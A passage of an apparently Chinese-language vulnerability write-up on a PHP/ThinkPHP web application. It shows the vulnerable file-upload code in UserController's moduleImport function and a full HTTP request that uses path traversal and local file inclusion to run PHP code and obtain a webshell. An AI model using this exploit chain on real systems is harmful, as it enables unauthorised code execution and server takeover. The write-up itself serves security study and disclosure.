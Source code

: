 只要将请求头中的 accept 设置好就可以了。

然后我们需要找一个文件上传，在UserController.class.php moduleImport函数里

```
`}` else `{`
           $config['param']['filename']=$_FILES["file"]["name"];
            $newfilename="./tmp/".$_FILES["file"]["name"];
            if($_POST['hid_import_file_type']) $config['param']['file-format'] = formatpost($_POST['hid_import_file_type']);
            if($_POST['hid_import_loc']!='') $config['param']['group'] = formatpost($_POST['hid_import_loc']);
            if($_POST['hid_import_more_user']) $config['param']['type'] = formatpost($_POST['hid_import_more_user']);
            if($_POST['hid_import_login_addr']!='')$config['param']['address-name'] = formatpost($_POST['hid_import_login_addr']);
            if($_POST['hid_import_login_time']!='') $config['param']['timer-name'] = formatpost($_POST['hid_import_login_time']);
            if($_POST['hid_import_login_area']!='') $config['param']['area-name'] = formatpost($_POST['hid_import_login_area']);
            if($_POST['hid_import_cognominal']) $config['param']['cognominal'] = formatpost($_POST['hid_import_cognominal']);
            //判断当前文件存储路径中是否含有非法字符
            if(preg_match('/\.\./',$newfilename))`{`
                exit('上传文件中不能存在".."等字符');
            `}`
            var_dump($newfilename);
            if(move_uploaded_file($_FILES["file"]["tmp_name"],$newfilename)) `{`
                echo sendRequestSingle($config);
            `}` else
                $this-&gt;display('Default/auth_user_manage');
        `}`
     `}`
```

这里的上传只能传到/tmp目录下，而且不可以跨目录，所以我们直接传文件上去。

紧接着然后使用之前的文件包含直接包含该文件

```
GET /?c=Auth/User&amp;a=index&amp;assign=0&amp;w=../../../../../../../../tmp/index1&amp;ddog=var_dump(scandir('/usr/local/apache2/htdocs')); HTTP/1.1
Host: 172.29.118.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=spk6s3apvh5c54tj9ch052fp53; think_language=zh-CN
Upgrade-Insecure-Requests: 1
```

上传文件的时候要注意 seesion 和 token ，token 可以从首页登陆页面获得。

至此我们成功获得了 webshell 。这里拿到 webshell 之后就会进入一段神奇的发现。
